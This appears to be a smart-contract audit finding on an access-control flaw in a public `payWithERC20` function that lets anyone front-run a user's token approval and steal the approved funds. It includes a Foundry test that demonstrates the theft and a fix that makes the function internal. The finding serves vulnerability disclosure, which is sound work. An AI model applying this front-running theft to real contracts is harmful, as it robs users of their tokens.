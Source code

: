 Ancient Berry Mouse

High

# Anyone can call `Payment::payWithERC20` function

# Summary

The function `Payment::payWithERC20` can be called by anyone. This allowa a malicious user to steal funds from the users of the protocol.

# Root Cause

The function [`Payment::payWithERC20`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/Payment.sol#L25) is used for the transfer of the required tokens from the user address to the fee wallet address, when the user creates an agent or updates config:

```solidity

    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }

```

The problem is that the function is public and anyone can call it. When the user wants to create an agent with token, the user should first approve the `Blueprint` contract to spend user's funds. After that the user can call the function to create the agent. But the approved transaction on Base are visible by everyone. That means the malicious user can see this approved transaction and calls the `payWithERC20` function with `fromAddress` and `toAddress`. The `fromAddress` will be the address of the user and the `toAddress` will be the address of the malicious user. In that way the malicious user can front run the legitimate user and steal his/her funds, before the legitimate user calls the function to create an agent.

# Impact

Users can be robbed by malicious user while trying to use the protocol.

# PoC

This Foundry test shows how the user1 is the user who wants to use the protocol and approves the blueprint. But user2 (malicious user) calls the `payWithERC20` function and transfers user1's funds to his address. In that case when user1 tries to call `createAgentWithToken` function, the function will revert:

```solidity

    function testPayWithERC20() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://eee.com";
        
        vm.startPrank(owner);
        blueprint.addPaymentAddress(address(erc20));
        blueprint.setCreateAgentTokenCost(address(erc20), 6 * 10**6);
        blueprint.setFeeCollectionWalletAddress(feeCollectionWalletAddress);
        vm.stopPrank();

        vm.startPrank(user1);
        erc20.mint(user1, 20 * 10**6);
        erc20.approve(address(blueprint), 6 * 10**6);
        vm.stopPrank();

        vm.startPrank(user2);
        blueprint.payWithERC20(address(erc20), 6*10**6, address(user1), address(user2));
        vm.stopPrank();

        vm.startPrank(user1);
        bytes32 projectId = keccak256(abi.encodePacked(block.timestamp, msg.sender, block.chainid));
        vm.expectRevert();
        blueprint.createAgentWithToken(projectId, base64Proposal, address(0x00), serverURL, address(erc20));
        vm.stopPrank();

        assertEq(erc20.balanceOf(user2), 6*10**6);
    }

```

# Mitigation

Change the visibility of `payWithERC20` from `public` to `internal`.

